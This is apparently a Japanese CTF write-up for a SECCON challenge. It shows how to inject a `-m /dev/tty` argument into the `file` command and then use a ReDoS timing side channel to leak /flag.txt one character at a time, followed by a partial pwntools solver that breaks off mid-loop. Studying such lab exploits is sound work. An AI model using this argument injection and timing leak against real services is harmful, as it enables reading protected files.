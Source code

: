 SSHでログインすると、シェルの代わりにこのbashスクリプトが実行されます。
フラグはサーバ上の`/flag.txt`に置かれています。

### Solution

#### Step 1: Magic file injection

できることはfileコマンドの引数に任意文字列を指定できるだけです。

`man file`を確認すると
```
     -m, --magic-file magicfiles
             Specify an alternate list of files and directories containing magic.  This can be a single item,
             or a colon-separated list.  If a compiled magic file is found alongside a file or directory, it
             will be used instead.
```
のようにmagic fileを指定することができるようです。
ここをうまく指定して、好きな内容のmagic fileでフラグファイルを先頭から1文字ずつ判定することはできないでしょうか？

実は`/dev/tty`や`/proc/self/fd/0`などを使って任意文字列をmagic fileとして指定可能です。

`-m /dev/tty /flag.txt`を入力後に
```
0 string SECCON{x foo
```
を入力してctrl+dをすることで、`SECCON{x`がフラグのprefixであるかどうかの判定ができそうな雰囲気です。

ただし、与えられたbashスクリプトはfileコマンドの結果を何も出力しないため、もう1ステップなにかをする必要がありそうです。

#### Step 2: A time-based attack with ReDoS

`man magic`を確認すると
```
              regex       A regular expression match in extended POSIX regular expression syntax (like egrep).
                          Regular expressions can take exponential time to process, and their performance is
                          hard to predict, so their use is discouraged.  When used in production environments,
                          their performance should be carefully checked.  The size of ... snip ...
```
という、"いかにも"利用できそうなものがあります。

はい、ReDoSが可能です。

あとはがんばってReDoSでtime-based attackしてフラグを先頭から1文字ずつ確定すればOKです。

### Solver

```python
import string
import os
import pwn
import time

REDOS_POWER = 20
TIMEOUT = 20

SSH_CMD = f"sshpass -p ctf ssh -oStrictHostKeyChecking=no -oCheckHostIP=no ctf@{os.getenv('SECCON_HOST')} -p {os.getenv('SECCON_PORT')}"


def get_time(rule: str) -> bool:
    io = pwn.process(SSH_CMD, shell=True, stdin=pwn.PTY, raw=False)
    io.sendlineafter(b"Input a file path: ", b"-m /dev/tty /flag.txt")
    io.sendline(rule.encode())
    for i in range(REDOS_POWER):
```